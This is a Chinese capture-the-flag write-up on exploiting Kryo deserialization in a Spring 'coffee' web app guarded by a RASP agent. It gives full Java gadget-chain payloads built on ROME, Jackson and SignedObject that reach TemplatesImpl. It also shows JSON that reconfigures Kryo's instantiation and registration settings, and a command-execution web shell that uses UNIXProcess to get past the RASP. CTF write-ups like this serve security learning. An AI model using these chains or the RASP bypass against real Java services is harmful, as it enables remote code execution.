因为有题目的附件，因此先看题目的`docker`附件，看到了它的启动方式是`java -javaagent:jrasp.jar`，说明题目是有`RASP`限制的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215126-75d10640-daf7-1.png)

先看`springcoffe.jar`，也就是题目网站构造的源代码，有两个`路由`，`/coffer/order`通过接收`CoffeeRequest`类，进行`base64`解码后，使用`kyro.readClassAndObject()`进行反序列化。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215135-7b0e827c-daf7-1.png)

另一个是`coffee/demo`路由，接收`json`形式的字符串，进行解析后判断字符串中是否有`polish`，然后创建了一个`Kry`类，遍历获取了`Kryo`所有的`set`方法，如果`方法名`在`json字符串`中并且它的参数类型并步是私有的，就会实例化并且触发这个方法，最下面的代码将一个自定义的`Mocha`类通过`register`注册了进去，并且进行了序列化。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215143-7fc6d83c-daf7-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215146-81e6922e-daf7-1.png)

在`/coffee/order`中是接收了参数进行了`Kyro`反序列化的，因此这里应当是`Kyro`反序列化的打法，`Kyro`反序列化与`Hessian`原理是相似的，都是基于`Field`的反序列化机制，最终都会走到`HashMap.put()`方法中，所有与`HashCode`等开头的相关链子都可以联系起来，在依赖中存在`Jackson`、`ROME`、`Spring aop`依赖都是可利用的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215159-8970494a-daf7-1.png)

根据上面的依赖，这里可以使用的链子我想到的有两条。

```plain
kyro#readObject()->hashMap#put()->EqualsBean#hashCode()->toStringBean#toString()->SignedObject#getObject->HashMap#readObject()->EqualsBean#hashCode()->toStringBean#toString()->TemplatesImpl#getOutputProperties()

或者

kyro#readObject()->hashMap#put()->HotSwappableTargetSource#equals()->Xstring#equals()->BaseJsonNode#toString()->templatesImpl#getOutputProperties()
```

两条链子的`payload`如下：

```plain
public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "aiwin");
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_bytecodes", new byte[][]{getTemplates()});
        ToStringBean toStringBean=new ToStringBean(Templates.class,templates);
        EqualsBean equalsBean=new EqualsBean(String.class,"111");
        HashMap<Object,Object> hashMap=new HashMap<>();
        hashMap.put(equalsBean,"aaa");

        setFieldValue(equalsBean,"_beanClass",ToStringBean.class);
        setFieldValue(equalsBean,"_obj",toStringBean);
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap, kp.getPrivate(), Signature.getInstance("DSA"));

        ToStringBean toStringBean1=new ToStringBean(SignedObject.class,signedObject);
        EqualsBean equalsBean1=new EqualsBean(String.class,"aiwin");
        HashMap<Object,Object> hashMap1=new HashMap<>();
        hashMap1.put(equalsBean1,"bbb");
        setFieldValue(equalsBean1,"_beanClass",ToStringBean.class);
        setFieldValue(equalsBean1,"_obj",toStringBean1);

//        CtClass ctClass=ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
//        CtMethod writePlace=ctClass.getDeclaredMethod("writeReplace");
//        ctClass.removeMethod(writePlace);
//        ctClass.toClass();
//        POJONode pojoNode = new POJONode(templates);
//        HotSwappableTargetSource hotSwappableTargetSource = new HotSwappableTargetSource(1);
//        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(2);
//        HashMap hashMap = new HashMap();
//        hashMap.put(hotSwappableTargetSource, "1");
//        hashMap.put(hotSwappableTargetSource1, "2");
//        setFieldValue(hotSwappableTargetSource, "target", pojoNode);
//        setFieldValue(hotSwappableTargetSource1, "target", new XString("a"));
//
//        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
//        kpg.initialize(1024);
//        KeyPair kp = kpg.generateKeyPair();
//        SignedObject signedObject = new SignedObject(hashMap, kp.getPrivate(), Signature.getInstance("DSA"));
//        POJONode pojoNode1 = new POJONode(signedObject);
//        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(3);
//        HotSwappableTargetSource hotSwappableTargetSource3 = new HotSwappableTargetSource(4);
//        HashMap hashMap1 = new HashMap();
//        hashMap1.put(hotSwappableTargetSource2, "1");
//        hashMap1.put(hotSwappableTargetSource3, "2");
//        setFieldValue(hotSwappableTargetSource2, "target", pojoNode1);
//        setFieldValue(hotSwappableTargetSource3, "target", new XString("b"));
        Kryo kryo=new Kryo();
        ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
        Output output = new Output(outputStream);
        kryo.writeClassAndObject(output, hashMap1);
        output.close();
        byte[] serializedObject = outputStream.toByteArray();
        String base64String = Base64.getEncoder().encodeToString(serializedObject);
        System.out.println(base64String);
        ByteArrayInputStream bas = new ByteArrayInputStream(Base64.getDecoder().decode(base64String));
        Input input = new Input(bas);
        kryo.readClassAndObject(input);
    }
    public static void setFieldValue(Object object, String field, Object value) throws NoSuchFieldException, IllegalAccessException {
        Field dfield=object.getClass().getDeclaredField(field);
        dfield.setAccessible(true);
        dfield.set(object,value);
    }
    public static byte[] getTemplates() throws CannotCompileException, NotFoundException, IOException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();

    }
```

随意执行一条链子会发现并不能成功，出现了`Class cannot be created (missing no-arg constructor)`的报错，报错原因是因为`Kyro`在反序列化的时候无法指定没有`无参构造函数`的类。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215212-918c9728-daf7-1.png)

有没有办法改变这样的一种策略，让它能够实例化没有`无参构造函数`的类？`GPT`先生的回答如下：

-   创建自定义的实例化策略类，实现`com.esotericsoftware.kryo.InstantiatorStrategy`接口
-   创建自定义的`ObjectInstantiator`类，实现`com.esotericsoftware.kryo.instantiator.ObjectInstantiator`接口
-   通过`setInstantiatorStrategy`将自定义的实例化策略设置到`Kryo`对象中

所以出题人在`/coffee/demo`中设置根据输入的`json`字符来遍历并触发`set`方法的作用就是为了`setInstantiatorStrategy`改变策略。这里不可能策略化的类，但是`springboot`都会带`objensis`依赖，里面存在`org.objenesis.strategy.StdInstantiatorStrategy`标准实例化策略，用于实例化对象而无需调用它们的构造函数。

在本地环境打的时候，还是出现了报错`Class is not registered`，查了一下发现在`Kyro`中，所有序列化和反序列化用到的`Class`都要通过`register`先注册，

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215221-967d9fa2-daf7-1.png)

调试源代码可以发现，`Kryo`在进行`序列化`或`反序列化`的时候会通过`getRegistration`获取注册的类型从而获取序列化或反序列化器，如果获取不到类型，是无法进行`序列化`或`反序列化`的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215230-9c19c27e-daf7-1.png)

但是这里是能够被绕过的，当它的`registrationRequired`属性不为`True`的时候，它就会跳过异常的抛出，因此这里可以通过`setRegistrationRequired`使其变成`false`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215239-a1528f1e-daf7-1.png)

`Kyro`自带的`Registration`有`19`个，都是一些常用的如`int double String`等定义字符类型的类。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215243-a3e04fb4-daf7-1.png)

因此整体的解题思路就是先通过`/coffee/demo`设置`Kryo`的`反序列化策略`和`RegistrationRequired`，最终再通过`Kryo`反序列化打链子触发`RCE`

需加上的 payload 内容：

```plain
public static void main(String[] args) throws Exception {
        Kryo kryo = new Kryo();
        String raw = "{\"polish\":\"true\",\"RegistrationRequired\":\"false\", \"InstantiatorStrategy\":\"org.objenesis.strategy.StdInstantiatorStrategy\"}";
        JSONObject serializeConfig = new JSONObject(raw);
        if (serializeConfig.has("polish") && serializeConfig.getBoolean("polish")) {
            Method[] var3 = kryo.getClass().getDeclaredMethods();
            int var4 = var3.length;

            for(int var5 = 0; var5 < var4; ++var5) {
                Method setMethod = var3[var5];
                if (setMethod.getName().startsWith("set")) {
                    try {
                        Object p1 = serializeConfig.get(setMethod.getName().substring(3));
                        if (!setMethod.getParameterTypes()[0].isPrimitive()) {
                            try {
                                p1 = Class.forName((String)p1).newInstance();
                                setMethod.invoke(kryo, p1);
                            } catch (Exception var9) {
                                var9.printStackTrace();
                            }
                        } else {
                            setMethod.invoke(kryo, p1);
                        }
                    } catch (Exception var10) {
                    }
                }
            }
        }
     //下同
```

在`rasp`中，它这里是把`ProcessImpl`给`ban`掉了，但是上文说到，它只禁用了`ProcessImpl`，可以通过`UNIXProcess`完成绕过的，最终打入`shell`即可。

```plain
public void shell(HttpServletRequest request, HttpServletResponse response) throws Exception {
        Class<?> cls = Class.forName("java.lang.UNIXProcess");

        Constructor<?> constructor = cls.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            String[] command = {"/bin/sh", "-c", cmd};
            byte[] prog = toCString(command[0]);
            byte[] argBlock = getArgBlock(command);
            int argc = argBlock.length;
            int[] fds = {-1, -1, -1};
            Object obj = constructor.newInstance(prog, argBlock, argc, null, 0, null, fds, false);
            Method method = cls.getDeclaredMethod("getInputStream");
            method.setAccessible(true);
            InputStream is = (InputStream) method.invoke(obj);
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            int                   a    = 0;
            byte[]                b    = new byte[1024];
            while ((a = is.read(b)) != -1) {
                baos.write(b, 0, a);
            }
            PrintWriter out=response.getWriter();
            out.println(baos.toString());
        }
    }
    private static byte[] toCString(String var0) {
        if (var0 == null) {
            return null;
        } else {
            byte[] var1 = var0.getBytes();
            byte[] var2 = new byte[var1.length + 1];
            System.arraycopy(var1, 0, var2, 0, var1.length);
            var2[var2.length - 1] = 0;
            return var2;
        }
    }
    public static byte[] getArgBlock(String[] strs) throws Exception {
        assert strs != null && strs.length > 0;

        byte[][] args = new byte[strs.length - 1][];
        int size = args.length;

        for (int i = 0; i < args.length; ++i) {
            args[i] = strs[i + 1].getBytes();
            size += args[i].length;
        }
        byte[] argBlock = new byte[size];
        int i = 0;
        int var11 = args.length;
        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }
        return argBlock;
    }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240305215254-aa9db620-daf7-1.png)

> 这道题质量真的很高，做了好久好久，主要思路就是通过`Kyro`打反序列化+`UNIXProcess或JNI`的形式绕过`RASP`

# 总结

文章中`JDK17`版本绕过反射的是通过`Unsafe`改变`module`来进行的，在`2021KCon`中还看到了`InstrumentationImplClass`来绕过的。`RASP`的绕过方式大致可分成两种，一种是通过`JNI`生成引用的`dll或so`，一种是寻找更底层的方法。

参考连接：

[2021KCon](https://github.com/BeichenDream/Kcon2021Code/blob/master/bypassJdk/JdkSecurityBypass.java)

[bookstack](https://www.bookstack.cn/read/anbai-inc-javaweb-sec/javase-CommandExecution-README.md#cshlcl)

[pdnkas](https://pankas.top/2023/12/05/jdk17-%E5%8F%8D%E5%B0%84%E9%99%90%E5%88%B6%E7%BB%95%E8%BF%87/)

[内存马](https://myzxcg.com/2021/11/Spring-%E5%86%85%E5%AD%98%E9%A9%AC%E5%AE%9E%E7%8E%B0/#%E6%B3%A8%E5%86%8Ccontroller)

[官网 WP](https://github.com/BuptMerak/mrctf-2022-writeups/blob/main/offical/WEB.md)
